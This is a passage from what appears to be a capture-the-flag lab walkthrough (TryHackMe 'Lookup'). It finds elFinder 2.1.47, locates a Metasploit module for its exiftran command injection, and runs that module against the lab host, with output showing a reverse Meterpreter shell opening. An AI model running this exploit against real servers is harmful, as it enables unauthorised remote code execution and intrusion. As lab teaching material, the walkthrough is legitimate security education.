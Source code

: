 #### Version Discovery:
By inspecting the web interface, we determine the version of elFinder (`2.1.47`).

#### Searching for Exploits:
We search for exploits related to this version in **Metasploit** and **Exploit DB**:

#### Commands:
```bash
msfconsole -q
search elfinder 2.1.47
```

#### Output:
```
Matching Modules
================

    #  Name                                                               Disclosure Date  Rank       Check  Description
   -  ----                                                                ---------------  ----       -----  -----------
   0  exploit/unix/webapp/elfinder_php_connector_exiftran_cmd_injection  2019-02-26       excellent  Yes    elFinder PHP Connector exiftran Command Injection
```

#### Key Concept:
- **Metasploit**: A framework for developing and executing exploit code against remote targets.
- **Exploit DB**: A database of public exploits and shellcode. You could have searched for the vulnerability here as well.

---

### **Step 9: Exploiting the elFinder Vulnerability**
We select and configure the exploit module for elFinder:

#### Commands:
```bash
use exploit/unix/webapp/elfinder_php_connector_exiftran_cmd_injection
set LHOST tun0
set RHOST files.lookup.thm
run
```

#### Output:
```
[*] Started reverse TCP handler on 10.17.14.127:4444 
[*] Uploading payload 'TRNyzgLuCE.jpg;echo ...' (1975 bytes)
[*] Triggering vulnerability via image rotation ...
[*] Executing payload (/elFinder/php/.7mrFCOx.php) ...
[*] Sending stage (40004 bytes) to 10.10.41.18
[+] Deleted .7mrFCOx.php
[*] Meterpreter session 1 opened (10.17.14.127:4444 -> 10.10.41.18:35566)
```
